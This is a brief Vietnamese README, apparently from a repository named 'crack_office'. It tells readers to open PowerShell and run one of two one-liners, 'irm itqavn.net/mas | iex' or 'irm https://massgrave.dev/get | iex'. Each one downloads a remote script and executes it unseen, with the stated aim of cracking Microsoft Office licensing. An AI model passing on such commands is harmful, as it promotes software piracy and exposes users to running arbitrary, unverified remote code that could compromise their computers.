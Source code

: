 "# crack_office" 

mở powersell chạy lệnh dưới

irm itqavn.net/mas | iex

hoặc

irm https://massgrave.dev/get | iex 
